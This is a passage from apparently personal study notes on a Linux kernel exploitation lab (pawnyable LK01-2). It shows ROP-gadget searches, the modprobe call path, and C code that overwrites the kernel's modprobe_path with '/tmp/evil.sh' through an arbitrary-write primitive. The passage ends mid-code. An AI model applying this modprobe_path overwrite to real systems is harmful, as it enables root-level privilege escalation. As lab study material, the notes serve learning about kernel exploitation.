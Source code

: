 *Arbitary address writes (AAW)* primitives can be created in situations where RIP
can be controlled.

*Arbitrary address read (AAR)* can be created with:

~~~sh
$ ropr vmlinux --noisy --nosys --nojop -R "mov eax, \[rdx\]; ret;"
...
0xffffffff81440428: mov eax, [rdx]; ret;
~~~

### Attack vector

When the filetype of the executable is unknown, the following call path is
followed, which ends up invokin `/sbin/modprobe` and trying to load the binary
as a kernel module:

~~~
- do_execveat_common()
  - bprm_execve()
    - __request_module()
      - call_modprobe()    
~~~

Kernel code flow in [loading_kernel_module.md](https://github.com/cpey/pawnyable/blob/main/LK01-2/src/05.heapbof-aaw/notes/loading_kernel_module.md).

The objective is to replace the string "/sbin/modprobe" with the attacker's shellcode.

### Find address of string "/sbin/modprobe:

Searching the "/sbin/modprobe" string:

~~~sh
$ python3
>>> from ptrlib import ELF
>>> kernel = ELF("./vmlinux")
>>> hex(next(kernel.search("/sbin/modprobe\0")))
'0xffffffff81e38180'
~~~

Checking with gdb:

~~~gdb
pwndbg> x/1s 0xffffffff81e38180
0xffffffff81e38180:     "/sbin/modprobe"
~~~

### Using AAW

Overwritting "/sbin/modprobe" with the shellscript path using AAW primitive:

~~~c
void AAW32(unsigned long addr, unsigned int val) {
  unsigned long *p = (unsigned long*)&buf;
  p[12] = rop_mov_prdx_rcx; 	// mov qword [rdx], rcx; ret;
  *(unsigned long*)&buf[0x418] = g_buf;
  write(fd, buf, 0x420);

  // mov [rdx], rcx; ret;
  for (int i = 0; i < 100; i++) {
    ioctl(spray[i], val /* rcx */, addr /* rdx */);
  }
}

int main() {
...
  char cmd[] = "/tmp/evil.sh";
  for (int i = 0; i < sizeof(cmd); i += 4) {
    AAW32(addr_modprobe_path + i, *(unsigned int*)&cmd[i]);
~~~